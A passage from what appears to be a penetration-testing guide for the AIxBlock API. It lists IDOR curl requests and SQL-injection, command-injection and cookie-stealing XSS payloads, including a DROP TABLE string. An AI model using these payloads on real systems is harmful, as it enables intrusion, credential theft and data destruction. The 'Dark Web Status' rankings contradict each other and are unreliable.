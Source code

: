 **AIxBlock Relevance**: Test project creation limits, compute resource allocation

#### **2. Insecure Direct Object References (IDOR)**
**Dark Web Status**: #1 most common vulnerability in 2025
**Testing Method**:
```bash
# Test object ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/projects/123" \
  -H "Authorization: Bearer <token>"

# Change project_id from 123 to 124
curl -X GET "https://api.aixblock.io/api/v1/projects/124" \
  -H "Authorization: Bearer <token>"
```

**AIxBlock Relevance**: Access other users' AI models, workflow data

#### **3. SQL Injection (SQLi)**
**Dark Web Status**: #2 most common vulnerability in 2025
**Testing Method**:
```bash
# Authentication bypass
' OR 1=1--

# Data extraction
' UNION SELECT username, password FROM users--

# Command execution
'; DROP TABLE users; --
```

**AIxBlock Relevance**: Extract user credentials, AI model data

#### **4. Command Injection**
**Dark Web Status**: Critical for RCE attacks
**Testing Method**:
```bash
# Basic command injection
; ls -la
& whoami
` id `

# Blind command injection
; sleep 5
& ping -c 5 127.0.0.1
```

**AIxBlock Relevance**: Execute OS commands on workflow servers

#### **5. Cross-Site Scripting (XSS)**
**Dark Web Status**: Persistent #1 vulnerability
**Testing Method**:
```html
<!-- Stored XSS -->
<script>alert(document.cookie)</script>

<!-- Reflected XSS -->
<img src=x onerror=alert(document.cookie)>

<!-- DOM-based XSS -->
<script>eval(location.hash.substring(1))</script>
```
